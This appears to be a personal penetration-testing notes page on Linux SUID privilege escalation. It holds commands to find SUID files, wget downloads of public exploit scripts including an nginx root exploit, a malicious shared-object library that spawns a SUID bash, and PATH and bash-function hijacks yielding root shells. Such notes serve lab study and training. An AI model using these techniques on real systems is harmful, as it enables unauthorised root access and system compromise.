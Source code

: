 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Detection

Files with SUID set run with higher privileges.  Can be found with "s"  on permissions.

-rws-rw-r--

Search for files that have SUID set
```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
OR
```bash - target
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20220219141658.png]]


![[Pasted image 20220219141727.png]]

#### suid3num.py

https://gtfobins.github.io/#+suid

```bash - kali
wget https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
python suid3num.py
```

#### Shared Objection injection
```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219142402.png]]

![[Pasted image 20221115134928.png]]

```bash - target
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

![[Pasted image 20221115134943.png]]

The idea here is to find where we have write privileges, overwrite one of these files with our malicious code.  In this example, that file is /home/user/.config/libcalc.so


libcalc.c
```c - kali
#include <stdio.h>
#include <stdlib.h>


static void inject() __attribute__((constructor));

void inject () {
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Verify the output path actually exists.  If not, make it.
Example /home/user/.config

```bash - kali
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

Now just run the original bin:

```bash - kali
/usr/local/bin/suid-so
```

![[Pasted image 20221115135412.png]]

#### CVE-2016-1247 Binary Symlinks
![[3._Automated Tools#Linux Exploit Suggester]]

![[Pasted image 20220219151234.png|1000]]

See if the target has unpatched version of nginx:

```bash - target
dpkg -l | grep nginx
```

```bash - kali
wget https://raw.githubusercontent.com/xl7dev/Exploit/master/Nginx/nginxed-root.sh
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - kali
./nginxed-root.sh /var/log/nginx/error.log
```

Logs must be rotated before exploit works.

#### Environmental Variables (Example 1)
```bash - target
env
```

```bash - target
find / -type f -perm -04000 -ls 2>/dev/null
```

![[Pasted image 20220219154119.png]]

/usr/local/bin/suid-env

```bash - target
strings /usr/local/bin/suid-env
```

![[Pasted image 20221115135430.png]]

We see at the bottom it is trying to start Apache by using the service binary.  We will create a malicious service binary.

```bash - target
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
```

```bash - target
gcc /tmp/service.c -o /tmp/service
```

```bash - target
export PATH=/tmp:$PATH
```

![[Pasted image 20221115135443.png]]

Notice now, that /tmp is first on the list when it looks for binary's.

```bash - target
/usr/local/bin/suid-env
```

#### Environmental Variables (Example 2)

```bash - target
strings /usr/local/bin/suid-env2
```

![[Pasted image 20221115135456.png]]

This one uses services located in /usr/sbin/service.  

```bash - target
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

```bash - target
export -f /usr/sbin/service
```

![[Pasted image 20221115135509.png]]
